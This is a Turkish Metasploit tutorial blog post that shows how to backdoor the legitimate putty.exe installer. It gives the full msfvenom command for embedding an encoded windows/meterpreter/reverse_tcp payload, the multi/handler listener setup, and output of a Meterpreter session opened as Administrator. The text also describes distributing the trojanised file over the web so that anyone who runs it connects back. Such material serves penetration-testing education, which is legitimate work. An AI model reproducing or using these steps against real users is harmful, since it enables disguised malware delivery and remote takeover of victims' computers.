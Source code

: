 ```yaml
---
draft: false

title:  'MSF EXE Arka Kapısı'
date: '2017-06-16T14:00:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.' 
 
url:  /tr/msf-exe-arka-kapisi/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Bir EXE Dosyası İle Arka Kapı Oluşturma



Bir hedef bilgisayara yönelik olarak özel bir .exe dosyası oluşturmak ve içine kodlar gömmek gerçekten uzun zaman alabilir. Bunun yerine, zaten var olan bir .exe uzantılı dosyanın içine, Metasploit Payload modülleri yerleştirebilirsiniz.



Bu yazıda, bir .exe dosyasının içine, Metasploit Payload yerleştirip encode etmeyi göreceğiz. Bu sayede, kodlanmış özel .exe dosyasını çalıştıran kullanıcının bilgisayarından bizim bilgisayarımıza Meterpreter oturum açılacaktır.



## Exe Dosyası İndirme



Örneğimizde, `putty.exe` isimli dosyayı kullanacağız. Öncelikle bu dosyayı indirelim. Encode edilmiş .exe dosyamızı web sayfasından dağıtacağımıza göre, Kali Linux içinde sunucumuzun bulunduğu `/var/www/` klasörüne gidelim ve indirmeyi aşağıdaki komut ile başlatalım.


```bash
root@kali:/var/www# wget <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe">http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe</a>

Resolving the.earth.li **(**the.earth.li**)**... 46.43.34.31, 2001:41c8:10:b1f:c0ff:ee:15:900d
Connecting to the.earth.li **(**the.earth.li**)**|46.43.34.31|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a> **[**following]
--2015-07-21 12:01:27--  <a href="http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe">http://the.earth.li/~sgtatham/putty/0.64/x86/putty.exe</a>
Reusing existing connection to the.earth.li:80.
HTTP request sent, awaiting response... 200 OK
Length: 524288 **(**512K**)** **[**application/x-msdos-program]
Saving to: `putty.exe'

100%[=========================================================================================================>] 524,288      815K/s   in 0.6s    

2015-07-21 12:01:28 (815 KB/s) - `putty.exe' saved **[**524288/524288]

root@kali:/var/www#
```



Şimdi, bu indirdiğimiz `putty.exe` dosyasının içine, `msfvenom` komutunu kullanarak bir Metasploit Payload modülünü yerleştireceğiz. Yerleştireceğimiz modül, `windows/meterpreter/reverse_tcp` modülüdür ve LHOST olarak kendi IP adresimiz olan 192.168.1.101 IP adresini ayarlayacağız.



Next, we use msfvenom to inject a meterpreter reverse payload into our executable and encoded it 3 times using shikata_ga_nai and save the backdoored file into our web root directory.



root@kali:/var/www# msfvenom -a x86 –platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.1.101 -e x86/shikata_ga_nai -i 3 -b “\x00” -f exe -o puttyX.exe



Found 1 compatible encoders Attempting to encode payload with 3 iterations of x86/shikata_ga_nai x86/shikata_ga_nai succeeded with size 326 (iteration=0) x86/shikata_ga_nai succeeded with size 353 (iteration=1) x86/shikata_ga_nai succeeded with size 380 (iteration=2) x86/shikata_ga_nai chosen with final size 380 Payload size: 380 bytes Saved as: puttyX.exe root@kali:/var/www#


```bash

İşlem başarıyla sonuçlandığında elimizde ```puttyX.exe``` isimli kodlanmış ve içine payload yerleştirilmiş bir çalıştırılabilir dosya bulunmaktadır.

.exe dosyasının içine, reverse payload yerleştirildiğine göre, bu payload bizim yerel bilgisayarımıza bağlanmak isteyecektir. O zaman, ```msfconsole``` içerisinde bir dinleyici modül çalıştırmalıyız ki bağlantı mümkün olsun.

Bunun için ```exploit/multi/handler``` modülünü kullanalım ve gerekli ayarları yapalım.

```sh
msf > use exploit/multi/handler 

msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp

msf exploit(handler) > set LHOST 192.168.1.101
LHOST => 192.168.1.101

msf exploit(handler) > set LPORT 443
LPORT => 443

msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.101:443 
[*] Starting the payload handler...
```



Artık dinleme modülü de çalışmaktadır. Bu aşamadan sonra yapılması gereken, oluşturduğumuz .exe dosyasını web üzerinden dağıtmaktır. Herhangi bir kullanıcı bu dosyayı çalıştırdığında, otomatik olarak yerel bilgisayarımıza bağlanacak ve Meterpreter oturumu açılacaktır.


```bash
**[*********]** Sending stage **(**749056 bytes**)** to 192.168.1.201
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:443 -> 192.168.1.201:1189**)** at Sat Feb 05 08:54:25 -0700 2011

meterpreter **>** getuid
Server username: XEN-XP-SPLOIT\Administrator
meterpreter **>**
```



Bu yazıda anlatılan işlemler ve .exe dosyasının dağıtılması, göründüğünden daha uzun süre alabilir. Burada sadece işlemin mantığı açıklanmaya çalışılmıştır.
